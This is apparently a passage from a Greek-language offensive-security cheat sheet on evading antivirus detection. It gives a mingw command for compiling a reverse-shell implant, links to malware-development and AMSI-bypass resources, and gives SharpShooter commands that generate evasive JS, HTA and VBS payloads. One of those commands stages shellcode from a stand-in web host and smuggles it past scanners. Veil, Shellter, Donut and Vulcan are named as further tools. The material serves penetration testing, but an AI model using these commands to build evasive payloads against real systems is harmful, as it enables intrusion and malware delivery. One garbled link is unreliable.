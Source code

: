 Λίστα αποσυμπιεστών C#: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++
```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
* [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
* [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
* [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
* [https://github.com/l0ss/Grouper2](ps://github.com/l0ss/Group)
* [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
* [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### Χρησιμοποιώντας python για παράδειγμα κατασκευής injectors:

* [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### Άλλα εργαλεία
```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```
### Περισσότερα

